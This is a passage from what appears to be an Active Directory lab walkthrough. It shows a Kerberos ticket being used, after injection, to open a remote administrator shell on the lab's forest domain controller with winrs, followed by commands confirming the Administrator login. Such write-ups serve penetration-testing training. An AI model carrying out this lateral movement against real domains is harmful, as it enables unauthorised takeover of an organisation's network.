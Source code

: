```
        Renew Time: 2/24/2025 5:41:25 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Once the ticket is injected, we can access `mcorp-dc`!

`winrs -r:mcorp-dc.moneycorp.local cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀

![mcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/mcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👑
```

`set computername`:
```
COMPUTERNAME=MCORP-DC🖥️
```
🚩

---
---
